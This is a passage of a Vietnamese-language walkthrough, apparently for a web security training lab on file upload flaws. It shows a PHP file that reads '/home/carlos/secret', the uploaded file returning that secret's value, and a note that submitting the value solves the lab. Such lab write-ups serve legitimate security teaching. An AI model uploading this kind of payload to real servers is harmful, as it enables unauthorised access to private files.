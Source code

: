     ![alt text](/File%20Upload/images/image-7.png)
- Thử up tiếp 1 file với nội dung:
    ```php
    <?php echo file_get_contents('/home/carlos/secret'); ?>
    ```
    - Hàm `file_get_contents` cho phép đọc nội dung của file tại địa chỉ `/home/carlos/secret`
- Sau khi upload, nội dung của file đã được đọc
    ![alt text](/File%20Upload/images/image-8.png)
    `nmkjgM6OQiKk9gNYBVFJ2Hi2zWPuWXt7`

- Submit nội dung là đã hoàn thành lab này
    ![alt text](/File%20Upload/images/image-9.png)
